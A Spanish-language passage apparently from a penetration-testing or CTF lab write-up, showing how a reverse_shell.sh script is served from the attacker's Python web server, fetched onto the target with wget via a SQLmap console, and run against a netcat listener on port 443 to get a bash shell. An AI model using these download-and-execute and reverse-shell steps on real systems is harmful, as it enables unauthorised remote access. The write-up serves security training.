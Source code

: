 
Ahora lo que tenemos que hacer es pasar el archivo reverse_shell.sh al equipo objetivo. Para ello nos montamos un servidor web con Python por el puerto 80

```bash
python3 -m http.server 80
```

Ahora en el equipo objetivo (en la consola de SQLmap), ejecutamos el siguiente comando para descargar el archivo reverse_shell.sh y darle permisos de ejecución

```bash
wget http://[IPAtacante]:80/reverse_shell.sh
chmod +x reverse_shell.sh
```

Si listamos el contenido del directorio actual en el equipo objetivo, deberíamos ver el archivo reverse_shell.sh

![Imagen027](27.jpeg)

Como vemos, ya tenemos nuestra Reverse Shell en el equipo objetivo. De hecho vemos por ahí también los archivos PHP que ha subido SQLmap para darnos la Shell con la que ganamos acceso. Pues bueno, ahora tenemos que ponernos en escucha por netcat por el puerto 443 en nuestro caso, y ejecutar el script reverse_shell.sh para ganar acceso al equipo pero desde una bash que es más cómodo. 

```bash
nc -nlvp 443
```

```bash
bash reverse_shell.sh
```

Ya con esto hecho, podemos cerrar la consola de SQLmap. 
